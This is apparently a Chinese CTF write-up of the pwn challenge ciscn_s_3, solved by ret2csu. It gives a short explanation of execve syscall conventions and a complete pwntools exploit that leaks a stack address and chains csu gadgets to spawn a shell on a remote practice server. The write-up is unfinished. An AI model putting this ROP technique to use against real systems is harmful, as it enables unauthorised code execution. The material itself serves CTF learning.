

# 记录一道ret2csu的pwn题


> 写这道题之前, 大家首先要了解, 想要获得一个shell, 除了system("/bin/sh") 以外, 还有一种更好的方法, 就是系统调用中的 execve("/bin/sh", NULL, NULL)获得shell。我们可以在 Linxu系统调用号表 中找到对应的系统调用号,进行调用, 其中32位程序系统调用号用 eax 储存, 第一 、 二 、 三参数分别在 ebx 、ecx 、edx中储存。 可以用 int 80 汇编指令调用。64位程序系统调用号用 rax 储存, 第一 、 二 、 三参数分别在 rdi 、rsi 、rdx中储存。 可以用 syscall 汇编指令调用。




```python
from pwn import *

# 本地调试
if args.LOCAL:
    # context.terminal = ["wsl", "-c"]
    # io = process("./ciscn_2019_s_3")
    io = gdb.debug("./ciscn_s_3")
else:
    io = remote("node4.buuoj.cn", 25280)
    context.log_level = 'debug'

vuln_addr = 0x4004ed
syscall = 0x400517
pop_rdi_ret = 0x4005a3
mov_rax_59_ret = 0x4004e2
pop_rbx_rbp_r12_r13_r14_r15_ret = 0x40059a
mov_rdx_r13_mov_rsi_r14_mov_edi_r15_call_r12 = 0x400580

payload1 = b'a'*0x10 + p64(vuln_addr)
io.sendline(payload1)

io.recv(0x20)

stack_addr = u64(io.recv(8))
binsh_addr = stack_addr - 0x118
io.recv(0x38)

payload2 = b'/bin/sh\x00'.ljust(0x10, b'a') + p64(pop_rbx_rbp_r12_r13_r14_r15_ret)
payload2 += p64(0)*2 + p64(binsh_addr+0x50) + p64(0)*3
payload2 += p64(mov_rdx_r13_mov_rsi_r14_mov_edi_r15_call_r12) + p64(mov_rax_59_ret)
payload2 += p64(pop_rdi_ret) + p64(binsh_addr) + p64(syscall)

io.sendline(payload2)
io.interactive()
```

挖坑，明天来填，讲真现在对这题还是不太懂:no_mouth:


